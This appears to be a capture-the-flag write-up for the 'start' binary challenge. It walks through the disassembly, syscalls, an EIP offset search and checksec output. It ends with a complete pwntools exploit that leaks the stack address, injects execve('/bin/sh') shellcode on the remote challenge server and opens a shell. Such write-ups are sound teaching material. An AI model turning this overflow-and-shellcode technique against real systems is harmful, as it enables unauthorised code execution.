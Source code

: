 ```yaml
---
title: START Pwnable.kr challenge writeup
author: kaki-epithesi
featured-img: bin-exp
categories: [Writeup,Binary Exploitation]
tags: [syscalls,assembly,pwntools]
---
```



**Lets look at the file.**
```bash
root@kali:~/rev/pwanable/start# file start
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```
**lets run the binary**

```bash
root@kali:~/rev/pwanable/start# ./start
Let's start the CTF:ok
root@kali:~/rev/pwanable/start#
```
**let's analyse the binary with gdb**

```bash
root@kali:~/rev/pwanable/start# gdb -q ./start
Reading symbols from ./start...
(No debugging symbols found in ./start)
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x08048060  _start
0x0804809d  _exit
0x080490a3  __bss_start
0x080490a3  _edata
0x080490a4  _end
gdb-peda$
```

**clearly its a hand written asm code**

```bash
gdb-peda$ disas _start
Dump of assembler code for function _start:
   0x08048060 <+0>:     push   esp
   0x08048061 <+1>:     push   0x804809d
   0x08048066 <+6>:     xor    eax,eax
   0x08048068 <+8>:     xor    ebx,ebx
   0x0804806a <+10>:    xor    ecx,ecx
   0x0804806c <+12>:    xor    edx,edx
   0x0804806e <+14>:    push   0x3a465443
   0x08048073 <+19>:    push   0x20656874
   0x08048078 <+24>:    push   0x20747261
   0x0804807d <+29>:    push   0x74732073
   0x08048082 <+34>:    push   0x2774654c
   0x08048087 <+39>:    mov    ecx,esp
   0x08048089 <+41>:    mov    dl,0x14
   0x0804808b <+43>:    mov    bl,0x1
   0x0804808d <+45>:    mov    al,0x4
   0x0804808f <+47>:    int    0x80
   0x08048091 <+49>:    xor    ebx,ebx
   0x08048093 <+51>:    mov    dl,0x3c
   0x08048095 <+53>:    mov    al,0x3
   0x08048097 <+55>:    int    0x80
   0x08048099 <+57>:    add    esp,0x14
   0x0804809c <+60>:    ret    
End of assembler dump.
gdb-peda$ 
```
**clearly it is having 2 syscalls a write and a read**

**WRITE SYSCALL**

If u see the man page of write ($ man 2 write)

ssize_t write(int fd, const void *buf, size_t count)

As the sequence of registers eax,ebx,ecx,edx.

->eax will have the value of syscall number.

->ebx will have the file descriptor(think its used 1)

->ecx will have the pointer to the buffer

->edx will have the size of the buffer

Now look below ecx is given some value from the stack

dl is the 1st 8 byte of edx register which is moved to a value of 0x14 or 20

bl is the 1st 8 byte of ebx register which is having a value of 0x1

al is the 1st 8 byte of eax register which is set to 0x4 (write syscall number)

```bash
   0x08048087 <+39>:    mov    ecx,esp
   0x08048089 <+41>:    mov    dl,0x14
   0x0804808b <+43>:    mov    bl,0x1
   0x0804808d <+45>:    mov    al,0x4
```
**READ SYSCALL**

Read the man page. ($ man 2 read)

ssize_t read(int fd, void *buf, size_t count);

->eax will have the value of syscall number.

->ebx will have the file descriptor. (think its used 0)

->ecx will have the pointer to the buffer.

->edx will have the size of the buffer.

ebx is xored with ebx so it has a value 0.

dl is having the size of buffer to be read i.e 0x3c or 60.

al is having the read syscall number , 0x3.

```bash
   0x08048091 <+49>:    xor    ebx,ebx
   0x08048093 <+51>:    mov    dl,0x3c
   0x08048095 <+53>:    mov    al,0x3
   0x08048097 <+55>:    int    0x80
```

**FILE DESCRIPTOR**

why for read fd = 0 and for write fd = 1.

```text
Read from stdin => read from fd 0 : Whenever we write any character from keyboard, it read from stdin through fd 0 and save to file named /dev/tty.

Write to stdout => write to fd 1 : Whenever we see any output to the video screen, it’s from the file named /dev/tty and written to stdout in screen through fd 1.

Write to stderr => write to fd 2 : We see any error to the video screen, it is also from that file write to stderr in screen through fd 2.
```
let us check the offset of eip.

```bash
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100 > /root/rev/pwanable/start/a.txt
root@kali:~#cat rev/pwanable/start/a.txt
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

```bash
gdb-peda$ r < a.txt
.
.
.
gdb-peda$ info reg
eax            0x3c                0x3c
ecx            0xffffd314          0xffffd314
edx            0x3c                0x3c
ebx            0x0                 0x0
esp            0xffffd32c          0xffffd32c
ebp            0x0                 0x0
esi            0x0                 0x0
edi            0x0                 0x0
eip            0x37614136          0x37614136
eflags         0x10286             [ PF SF IF RF ]
cs             0x23                0x23
ss             0x2b                0x2b
ds             0x2b                0x2b
es             0x2b                0x2b
fs             0x0                 0x0
gs             0x0                 0x0
gdb-peda$ 
```

eip got a value 0f 0x37614136

```bash
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 100 -q 0x37614136
[*] Exact match at offset 20
root@kali:~# 
```
so we can see the offset of eip is 20 , and it has only 1 ret , so it is not exploitable using ROP.

lets look at the checksec of the binary.

```bash
root@kali:~/rev/pwanable/start# pwn checksec ./start
[*] '/root/rev/pwanable/start/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

As the NX bit is disabled we can use shellcode.

[more about NX bit](https://en.wikipedia.org/wiki/NX_bit)

First we need to find the stack address so we can point eip to it.

as mov ecx,esp; is already there, its helped us a lot.

So if we enhance write syscall again it will read stack pointer address.

so our 1st payload will be

```py
b'A'* 20 + p32(0x08048087)
```
**0x08048087** <+39>:    mov    ecx,esp

it will give us the stack pointer address. we will trigger a read syscall adding a shellcode to it , just simply use execve.

```py
shellcode = asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))
```

lets sum it up with a python code.

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import remote,p32,u32,asm

def _esp(r):
	address_1 = p32(0x08048087)     
	payload = b'A'*20 + address_1	# ROP GADGET
	r.recvuntil('CTF:')
	r.send(payload)
	esp = u32(r.recv()[:4])
	return esp

shellcode = asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))

r = remote('chall.pwnable.tw', 10000)
esp = _esp(r)
payload = b'A'*20  + p32(esp + 20) + shellcode 
r.send(payload)
r.interactive()
```

```bash
root@kali:~/rev/pwanable/start# ./start.py 
[+] Opening connection to chall.pwnable.tw on port 10000: Done
[*] Switching to interactive mode
$ whoami
start
$ cd home/start
$ ls
flag
run.sh
start
```

